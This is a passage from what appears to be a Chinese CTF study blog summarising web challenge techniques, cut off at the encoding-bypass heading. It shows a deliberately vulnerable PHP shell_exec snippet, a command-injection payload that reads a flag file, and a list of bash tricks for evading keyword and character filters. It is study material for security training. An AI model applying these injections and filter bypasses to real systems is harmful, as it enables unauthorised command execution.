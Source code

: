 0X00 前言

做题已经快四个月了，接触了大大小小的题型，收藏的大师傅们的解题思路、题型总结的博客已经很多了，每次都要一个一个翻很麻烦，于是写下了这一个总结，实际上是把各大博客内容汇总加上自己的理解编排，对应的博客都在每一个内容的参考文章给出，如有写不清楚之处可去相应文章查阅。一是方便自己查阅相关解题思路，二是提炼思路有一个整体框架

### 0X01 命令执行

#### 漏洞原理

没有对用户输入的内容进行一定过滤直接传给shell_exec、system一类函数执行
 看一个具体例子

```php
<?php 
$str="";
if(!empty($_GET)){
    $str=$_GET["calc"];
}
    echo "result:".shell_exec("echo $str | bc");
?>
```

这里只需要利用`;`将`str`截断，接着可以执行我们自定义的命令了，一个可能的payload： `calc=1;cat /flag;`

#### 绕过过滤

一般的题不会这么简单，往往会对用户的输入进行一定的过滤

**关键字过滤绕过**

```bash
# 关键字过滤
# 用*匹配任意
cat fl*  
cat fla* 
# 反斜线绕过
ca\t fla\g.php  
# 过滤cat可用其他命令，tac/more/less
tac flag.php
# 过滤/
#在linux的系统环境变量中${PATH:0:1}代替/
ls flag_is_here{PATH:0:1}    
# 两个单引号绕过，双引号也可以
cat fl''ag.php    
# 用[]或者{}匹配，[]匹配[]中任意一个字符，{}表示匹配大括号里面的所有模式，模式之间使用逗号分隔
cat fl[a]g.php       
# 变量替换与拼接
a=fl;b=ag;cat $a$b          
# 把flag.php复制为flaG
cp fla{g.php,G}   
# 利用空变量  使用$*和$@，$x(x 代表 1-9),${x}(x>=10)(小于 10 也是可以的) 因为在没有传参的情况下，上面的特殊变量都是为空的 
ca${21}t a.txt
```

**编码绕过**
